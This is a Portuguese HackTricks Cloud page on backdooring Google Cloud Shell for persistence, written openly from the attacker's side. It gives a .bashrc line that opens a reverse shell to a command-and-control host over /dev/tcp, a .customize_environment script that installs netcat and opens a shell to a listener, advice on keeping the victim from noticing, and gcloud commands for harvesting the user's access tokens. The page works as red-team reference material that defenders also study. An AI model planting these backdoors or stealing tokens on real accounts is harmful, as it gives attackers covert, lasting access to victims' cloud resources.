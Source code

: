 # GCP - Persistência no Cloud Shell

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repositórios no github.

</details>

## Cloud Shell

Para mais informações, confira:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

O [**Google Cloud Shell**](https://cloud.google.com/shell/) oferece acesso via linha de comando aos seus recursos na nuvem diretamente do seu navegador sem custos associados.

Você pode acessar o Cloud Shell do Google a partir do **console web** ou executando **`gcloud cloud-shell ssh`**.

Este console possui algumas capacidades interessantes para atacantes:

1. **Qualquer usuário do Google com acesso ao Google Cloud** tem acesso a uma instância do Cloud Shell totalmente autenticada (Contas de Serviço podem, mesmo sendo Proprietários da organização).
2. A referida instância **manterá seu diretório home por pelo menos 120 dias** se nenhuma atividade ocorrer.
3. Não há **capacidade de uma organização monitorar** a atividade dessa instância.

Isso basicamente significa que um atacante pode colocar um backdoor no diretório home do usuário e, contanto que o usuário se conecte ao GC Shell a cada 120 dias pelo menos, o backdoor sobreviverá e o atacante obterá um shell toda vez que for executado, apenas fazendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Existe outro arquivo na pasta home chamado **`.customize_environment`** que, se existir, será **executado toda vez** que o usuário acessar o **cloud shell** (como na técnica anterior). Basta inserir o backdoor anterior ou um semelhante ao seguinte para manter a persistência enquanto o usuário usar "frequentemente" o cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Observe que **a primeira vez que uma ação do GCP é realizada no Cloud Shell que requer autenticação**, ela **exibe** uma janela de autorização no navegador do usuário que deve ser aceita antes que o comando seja executado. Se um pop-up inesperado aparecer, o alvo pode ficar desconfiado e comprometer o método de persistência.

Este é o pop-up ao executar `gcloud projects list` a partir do cloud shell (como atacante) visualizado na sessão do navegador do usuário.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

No entanto, se o usuário utilizou ativamente o cloudshell, o pop-up não aparecerá e você pode **coletar tokens do usuário com**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Como a conexão SSH é estabelecida

Basicamente, estas 3 chamadas de API são usadas:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (fará você adicionar sua chave pública que criou localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (fará você iniciar a instância)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (informará o IP do Google Cloud Shell)

Mas você pode encontrar mais informações em [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referências

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* repositórios no github.

</details>

